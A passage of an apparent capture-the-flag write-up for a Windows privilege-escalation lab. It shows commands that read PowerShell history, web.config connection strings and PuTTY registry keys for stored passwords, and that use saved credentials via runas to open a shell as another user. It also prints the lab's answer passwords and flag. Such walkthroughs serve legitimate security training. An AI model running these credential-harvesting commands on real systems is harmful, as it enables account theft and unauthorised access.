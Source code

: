   ```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```
  Web server configurations may contain stored passwords in web.config:
    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
  Search for database credentials: ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```
5. PuTTY Stored Credentials
  PuTTY stores proxy credentials in the registry. Retrieve them with: ```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```
### Q.1: A password for the julia.jones user has been left on the Powershell history. What is the password?

To read the Powershell history enter the following command: ```type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

![Reading Powershell history](images/julia.jones%20password.png)

There on line 6 we find her password.
#### Answer: ZuperCkretPa5z

### Q.2: A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?
According to the task, there are two possible locations where we can find these web.config files:
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
The first one does not exist on the system, but if we run the command with the second location we find a connectionString:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
![Reading web.config](images/reading_web.config_file.png)
In the connectionString we find this including the password:
**add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB"**
#### Answer: 098n0x35skjD3

### Q.3: There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.
The instructions tell use exactly what to do. Start with cmdkey to see for which users we have saved credentials:```cmdkey /list```
![cdmkey list credential](images/cmdkey.png)

Sure enough, we have a saved credential for mike. Now run the following command to run cmd with his credentials: 
```runas /savecred /user:mike.katz cmd.exe```
It will open **cmd.exe**. In cmd, search for a file named **flag.txt** like this: ```dir C:\flag.txt /s /p``` 

Change to that directory with: ```cd C:\Users\mike.katz\Desktop```, then list files in that directory: ```dir``` and read the text file following command: ```type flag.txt```

![Flag](images/flag.png)
#### Answer: THM{WHAT_IS_MY_PASSWORD}

### Q.4: Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?
This one is also literally described in the task. Run the following command to search under the following registry key for ProxyPassword:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
![saved PuTTY session](images/password_thom.smith.png)

#### Answer: CoolPass2021

```